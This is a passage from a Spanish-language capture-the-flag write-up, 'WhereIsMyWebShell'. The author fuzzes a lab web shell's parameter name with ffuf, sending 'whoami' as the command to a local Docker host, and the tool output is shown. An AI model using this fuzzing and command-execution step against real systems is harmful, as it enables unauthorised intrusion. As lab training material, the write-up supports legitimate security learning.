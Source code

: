 El código tampoco oculta alguna pista.

![WhereIsMyWebShell 5](/assets/images/2024-05-30-WhereIsMyWebShell/WhereIsMyWebShell_5.PNG)

Voy a shell.php para ver si hay algo. 

![WhereIsMyWebShell 3](/assets/images/2024-05-30-WhereIsMyWebShell/WhereIsMyWebShell_3.PNG)

## Explotación de vulnerabilidades

Al ser una webshell, es posible que esté esperando algún parámetro. Con la herramienta ffuf pruebo a fuzear parámetros. Uso los siguientes comandos:

- -u: Ruta que se va a fuzear. Con FUZZ se indica la posición donde se utilizara el diccionario.
- -w: Para especificar un diccionario.
- -t: Número de hilos.
- -fc: Excluir códigos HTTP.

```shell
ffuf -u http://172.17.0.2/shell.php\?FUZZ\=whoami -w /usr/share/SecLists/Discovery/Web-Content/burp-parameter-names.txt -t 200 -fc 500  

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://172.17.0.2/shell.php?FUZZ=whoami
 :: Wordlist         : FUZZ: /usr/share/SecLists/Discovery/Web-Content/burp-parameter-names.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 200
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response status: 500
________________________________________________

parameter               [Status: 200, Size: 21, Words: 1, Lines: 3, Duration: 16ms]
:: Progress: [6453/6453] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errors: 0 ::
```
